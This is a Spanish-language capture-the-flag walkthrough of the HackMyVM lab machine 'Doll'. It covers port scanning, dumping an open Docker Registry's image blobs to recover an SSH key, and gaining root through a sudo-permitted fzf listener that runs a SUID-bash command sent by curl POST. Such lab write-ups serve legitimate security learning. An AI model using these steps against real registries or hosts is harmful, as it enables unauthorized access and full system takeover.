



Pentesting & Ctf Pl4yer
HackMyVm - Doll
Autor: sML

Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.14
PORT STATE SERVICE
22/tcp open ssh
1007/tcp open unknown
Escaneo de servicios
❯ nmap -sVC -v -p 22,1007 192.168.1.14 -oN servicios
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 d732ac404ba84166d3d811496ceded4b (RSA)
| 256 810e67f8c3d2501e4d092a5811c8d495 (ECDSA)
|_ 256 0dc37c540b9d3132f2d909d3eded93cd (ED25519)
1007/tcp open http Docker Registry (API: 2.0)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Después de enumerar directorios con wfuzz navego al directorio v2 para ver su contenido.

Como no tengo mucha información he buscado en Hacktricks y he seguido los pasos para enumerar el servicio de docker.
https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry
Ver lista de repositorios:
❯ curl -s http://192.168.1.14:1007/v2/_catalog
{"repositories":["dolly"]}
Obtener etiquetas de un repositorio.
❯ curl -s http://192.168.1.14:1007/v2/dolly/tags/list
{"name":"dolly","tags":["latest"]}
Obtener los manifiestos.
❯ curl -s http://192.168.1.14:1007/v2/dolly/manifests/latest
{
"schemaVersion": 1,
"name": "dolly",
"tag": "latest",
"architecture": "amd64",
"fsLayers": [
{
"blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
},
{
"blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
},
{
"blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
},
{
"blobSum": "sha256:f56be85fc22e46face30e2c3de3f7fe7c15f8fd7c4e5add29d7f64b87abdaa09"
}
Descargar blobs.
curl -s http://192.168.1.14:1007/v2/dolly/blobs/sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017 --output blob1.tar
Una vez descargados todos los blobs encuentro una llave rsa, pero esta protegida y no se puede romper por fuerza bruta.
❯ tree -a
.
├── etc
│ ├── group
│ ├── group-
│ ├── passwd
│ ├── passwd-
│ ├── shadow
│ └── shadow-
├── home
│ └── bela
│ ├── .ash_history
│ ├── .ssh
│ │ └── id_rsa
El passphrase está en los manifiestos de los repositorios.

Una vez dentro del sistema enumero permisos de sudo.
bela@doll:~$ sudo -l
Matching Defaults entries for bela on doll:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User bela may run the following commands on doll:
(ALL) NOPASSWD: /usr/bin/fzf --listen\=1337
No es necesario pero para mayor comodidad me he conetado con dos terminales, en el primero lanzo fzf.
bela@doll:~$ sudo /usr/bin/fzf --listen\=1337
Con el segundo terminal obtengo el root.
bela@doll:~$ curl localhost:1337 -X POST -d "execute(chmod 4755 $(which bash))"
bela@doll:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 mar 27 2022 /bin/bash
bela@doll:~$ bash -p
bash-5.1# uid=1000(bela) gid=1000(bela) euid=0(root)
Y con esto ya resolvemos Doll, una curiosa vm made in sML ;) nos vemos!